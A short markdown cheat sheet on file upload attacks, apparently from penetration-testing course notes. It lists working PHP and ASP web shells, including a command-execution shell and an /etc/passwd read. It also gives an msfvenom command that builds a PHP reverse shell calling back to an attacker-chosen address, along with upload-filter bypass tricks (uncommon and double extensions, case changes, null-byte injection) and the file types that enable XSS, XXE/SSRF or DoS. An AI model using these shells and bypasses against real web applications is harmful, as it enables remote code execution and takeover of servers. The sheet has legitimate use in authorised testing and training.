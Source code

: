 ```yaml
---
title: File Upload Attack
---
```


# Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read | 
| `<?php system('hostname'); ?>` | Basic PHP Command Execution | 
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell | 
| `<% eval request('cmd') %>` | Basic ASP Web Shell | 
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell | 
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell | 
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell | 
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells | 

# Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** |
[CTRL+SHIFT+C]	Toggle Page Inspector |
| **Blacklist Bypass** |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions]() | List of PHP Extensions |
| [ASP Extensions]() | List of ASP Extensions |
| [Web Extensions]() | List of Web Extensions |
| **Whitelist Bypass** |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20, %0a, %00, %0d0a, /, .\, ., …` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types]() | List of Web Content-Types |
| [Content-Types]() | List of All Content-Types |
| [File Signatures]() | List of File Signatures/Magic Bytes |

# Limited Uploads

| **Potential Attack**   | **File Types**   |
| --------------|-------------------|
| XSS | HTML, JS, SVG, GIF | 
| XXE/SSRF | XML, SVG, PDF, PPT, DOC | 
| DoS | ZIP, JPG, PNG | 